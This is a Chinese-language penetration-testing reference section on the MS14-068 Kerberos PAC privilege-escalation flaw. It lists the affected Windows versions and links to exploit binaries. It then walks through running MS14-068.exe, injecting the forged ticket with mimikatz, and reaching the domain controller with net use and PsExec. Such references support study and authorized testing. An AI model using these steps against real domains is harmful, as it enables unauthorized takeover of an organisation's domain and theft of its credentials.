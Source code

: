 **MS14-068 & CVE-2014-6324**
- 简介

    ms14-068 漏洞是 KDC 服务中的 Windows 漏洞，是由 PAC 认证错误引起，导致域内普通用户可以在 Kerberos TGT 中加入伪造的凭据，从域用户提升到域管理员权限。在执行 ms14-068 漏洞之前，需要通过 systeminfo 看目标机器是否打补丁 kb3011780，如果没打就可以尝试使用该方法进行域提权。

- 影响版本
    - Windows 7 SP1
    - Windows 8.1
    - Windows RT 8.1
    - windows vista
    - Windows Server 2003 SP2
    - Windows Server 2008 SP2
    - Windows Server 2008 R2 SP1
    - Windows Server 2012
    - Windows Server 2012 R2

- 文章
    - [MS14-068域权限提升漏洞总结](http://www.polaris-lab.com/index.php/archives/205/)

- POC | Payload | exp
    - [windows-kernel-exploits/MS14-068/](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)
    - [abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe)

        登录普通域用户 whoami/user 获取 sid

        退出域用户，登录本地用户
        ```bash
        MS14-068.exe -u test@test.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.1.1 -p Admin123

        # -u 域账号+@+域名称
        # -s 为 ts1 的 SID 值，可以通过 whoami/all 来获取用户的 SID 值
        # -d 为当前域的域控
        # -p 为当前用户的密码，即 ts1 的密码
        ```
        接下来将导出生成一张 kerberos 票据，配合 mimikatz 的 ptt 功能，将票据导入到内存中

        使用 mimikatz 将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器
        ```bash
        kerberos::purge                 # 清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
        kerberos::list                  # 查看当前机器凭证
        kerberos::ptc [ccachefile]      # 将票据注入到内存中

        可以使用 net use \\域控名\C$ 尝试访问域控

        也能执行 psexec
        PsExec64.exe -accepteula \\域控名 -s cmd /c "whoami /all"
        ```
